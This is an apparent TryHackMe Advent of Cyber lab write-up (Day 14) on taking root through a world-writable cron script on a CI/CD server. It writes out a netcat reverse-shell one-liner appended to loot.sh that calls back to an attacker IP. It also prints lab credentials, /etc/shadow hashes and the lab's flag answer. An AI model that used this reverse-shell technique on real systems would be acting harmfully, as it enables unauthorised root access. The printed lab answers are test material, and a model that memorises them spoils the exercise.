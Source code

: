 ## Day 14

> McDev - the head of the dev team, sends an alarming email stating that they're unable to update the best festival company's external web application. Without this update, no one can view the Best Festival Company's plan. The dev team has been using a CI/CD server to automatically push out updates to the server but the CI/CD server has been compromised. Can you help them get their server back?

CI/CD is Continuous Integration/Continuous Delivery, a way of doing software dev that encourages automated testing and deploying of new changes. This stuff can be great, detecting errors in how code functions or performs and automatically preventing bad changes getting pushed to the final product or anywhere it could disrupt service. However, it also has a few pitfalls, like:

1. What does a "bad" change look like? How you write your tests is crucial.
2. Devs have to take care not to become reliant on the CI/CD pipeline to push back against them instead of being meticulous while they're writing code.
3. The pipeline (i.e. the automated workflow) increases your attack surface.

We're especially interested in the last one today. Let's start by running `ffuf` against the server to see what's there:

    ffuf -c -u http://10.10.224.42/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -e .php,.txt -ic -t 200 

We see two folders:

    warez                   [Status: 200, Size: 606, Words: 78, Lines: 17]
    admin                   [Status: 200, Size: 363, Words: 36, Lines: 15]

![](warez.png)

Browsing to http://10.10.224.42/warez we see the Grinch is running his own CI/CD app. It mentions a page where files will get listed. Let's try http://10.10.224.42/admin  

![](admin.png)

This looks like the one. Four text files. Let's SSH into the machine with the credentials TryHackMe have given us today:

    mcskidy:Password1

Once we're in, let's `cd /var/www/html` to get to the web root. A quick `ls -lah` shows us the contents:

    drwxr-xr-x 2 root root 4.0K Nov 11 20:12 .
    drwxr-xr-x 3 root root 4.0K Nov 11 05:59 ..
    -rw-r--r-- 1 root root 179K Nov 11 06:08 Le_Me.png
    -rw-r--r-- 1 root root  363 Nov 11 11:58 admin
    -rw-r--r-- 1 root root  169 Nov 11 11:46 index.html
    -rw-r--r-- 1 root root   46 Dec 14 21:10 ls.html
    -rw-r--r-- 1 root root  606 Nov 11 12:36 warez

This looks like the site. Let's `ls -lah` the /home directory to see if we can see inside the Grinch's home folder:

    mcskidy@ip-10-10-224-42:/var/www/html$ ls -lah /home
    total 24K
    drwxr-xr-x  6 root      root      4.0K Nov 11 08:27 .
    drwxr-xr-x 23 root      root      4.0K Dec 14 20:55 ..
    drwxr-xr-x  5 mcskidy   mcskidy   4.0K Nov 11 08:03 mcskidy
    drwxr-xr-x  2 pepper    pepper    4.0K Nov 11 08:27 pepper
    drwxr-xr-x  7 thegrinch thegrinch 4.0K Nov 11 19:50 thegrinch
    drwxr-xr-x  5 ubuntu    ubuntu    4.0K Nov 11 05:52 ubuntu

The last three characters in the leftmost column are what we're looking for. That's the permissions that "everyone" has. It's got "r-x" meaning everyone can read inside the folder but can't write to it (otherwise there'd be a 'w' in the middle.)  

Inside there are two interesting folders: loot and scripts. "Loot" we know the contents of from the website, it's four text files. "scripts" has four .sh files but we only have permission to read one of them.  

    -rwx------ 1 root      root       286 Nov 11 20:03 check.sh
    -rwx------ 1 root      root        58 Nov 11 09:00 cleanup.sh
    -rwxrwxrwx 1 root      root        61 Nov 11 19:56 loot.sh
    -rwx------ 1 root      root         0 Nov 11 07:58 test.sh

Let's check it out:

    mcskidy@ip-10-10-224-42:/home/thegrinch/scripts$ cat loot.sh
    #!/bin/bash

    ls /home/thegrinch/loot > /var/www/html/ls.html

Okay, pretty simple. It's just listing the files in the loot folder and writing that output to ls.html (the box with the filenames in it on the website.) From here, usually I'd start looking at the permissions on the loot folder to see if we could move a malicious file in there. That way when the loot.sh script ran and copied the output of `ls`, our own file would get moved to the web root and we could access it, possibly elevating our privileges from there. Initially I thought if PHP was running, we could try naming a file in such a way that it'd inject PHP code into the page.  

Oh, but look at those loot.sh permissions. "Everyone" has read, write, and execute permissions. We can change this script to do whatever we want. And because it's run by root, we can use it to read files we don't have access to by getting the script to copy them onto the website.  

In TryHackMe's walkthrough, we could copy /etc/shadow onto the website, revealing some password hashes that we could crack. It also suggests changing the script to copy the other scripts in the folder that we can't read. That way we might be able to find another way to escalate our privileges. Tank?  

![](tank1.png)
![](tank2.png)

We have write access to a script run by root, let's go straight to root.  

First we'll copy a reverse shell one-liner from revshells.com:

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.4.22.22 443 >/tmp/f

And add that below the initial command in loot.sh so now it looks like:

    #!/bin/bash

    ls /home/thegrinch/loot > /var/www/html/ls.html
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.4.22.22 443 >/tmp/f

Now we start a listener on our attacker:

    nc -vlnp 443

And wait a minute. Once the script runs to update ls.html, it also runs our command and...

![](root.png)

We get a root shell on our listener. Now let's answer today's questions.  

> How many scripts do you see in the /home/thegrinch/scripts folder?

4. In case you're wondering what the others do:

check.sh checks for a file called "remindme.txt" in the loot folder. If it exists, it'd echo "ELFSareFAST" to pass.html in the web root, which is the Grinch's password. It's apparently his "Secret password reminderr script". Not great.  

cleanup.sh just removes the files involved in the last script's operation.  

And test.sh is completely empty.  

> What are the five characters following $6$G in pepper's password hash?

We can get this from /etc/shadow. There are three hashes:  

    thegrinch:$6$iiajscL7$7YgS0mCSs8ROHgS/4VP1itLix.T7onR26n4gdHFNAYnF/jVY7N4No11Yuy2RtLwXxJE3Vzl6zBdXXu5GUBJCj0:18942:0:99999:7:::
    mcskidy:$6$g81UcX1e$az/mXtNiOt9tMDb6lixDN3c1yH2GhcJVlAIWYB/WYNgujmxHafZdhD91ppxB.x7RIkH9DbpS6XQxe0piA2p2L1:18942:0:99999:7:::
    pepper:$6$GZUP42Y2$QYDESrTO9T517RDzR6cGXOANA/H4For7odahhn/DUdeWfEXtG9ZLHnZl4PLbfm8WF0GRB4ti9ij6w0NwBPunI/:18942:0:99999:7:::

So the first five in pepper's hash are: ZUP42  

And finally...  

> What is the content of the flag.txt file on the Grinch's user’s desktop?

    cat /home/thegrinch/Desktop/flag.txt
    DI3H4rdIsTheBestX-masMovie! 

(It's not; it's Kiss Kiss Bang Bang.)  